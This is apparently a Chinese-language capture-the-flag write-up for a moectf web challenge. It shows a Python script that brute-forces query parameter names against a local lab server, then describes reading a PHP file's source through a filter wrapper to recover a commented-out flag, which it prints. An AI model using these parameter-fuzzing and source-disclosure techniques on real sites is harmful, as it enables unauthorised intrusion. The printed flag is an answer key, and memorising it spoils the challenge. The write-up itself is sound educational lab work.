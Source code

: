 # Web-11｜第十一章 千机变·破妄之眼

## 碎碎念

好一个套娃爆破...
***
## Writeup

使用爆破脚本：

```python
from itertools import permutations
import requests

char_list = ['m', 'n', 'o', 'p', 'q']

all_permutations = list(permutations(char_list))

url = "http://127.0.0.1:55634"

origin_response = requests.get(url)

while True:
    for permutation in all_permutations:
        argument = ''.join(permutation)
        response = requests.get(url, params={argument: argument})
        if response.text != origin_response.text:
            print(argument)
            print(response.text)
            break
```

需要注意的是，这题不是简单爆个破就能得到 flag 的，所以需要对比响应内容是不是变了而不是傻傻找 flag（虽然好像响应内容里面也含 flag 这个字段，但是没有 moectf 字段）

得到：

![](../../../../assets/Pasted%20image%2020251028231045.png)

flag.php 什么都没有，find.php 可以进入一个新的界面：

![](../../../../assets/Pasted%20image%2020251028231407.png)

直接查看 flag.php 依旧是什么都没有：

![](../../../../assets/Pasted%20image%2020251028232401.png)

但是这么显示可能是因为做了 php 渲染，flag 可能藏在源码中，我们可以用 filter 强制读取 flag.php 的源码 Base64 编码：

![](../../../../assets/Pasted%20image%2020251028232832.png)

解码过后发现 flag 被注释了。。。

![](../../../../assets/Pasted%20image%2020251028232906.png)

最终 flag：`moectf{4fe21eae-dcb8-3a4b-06b8-1ccb262f5371}`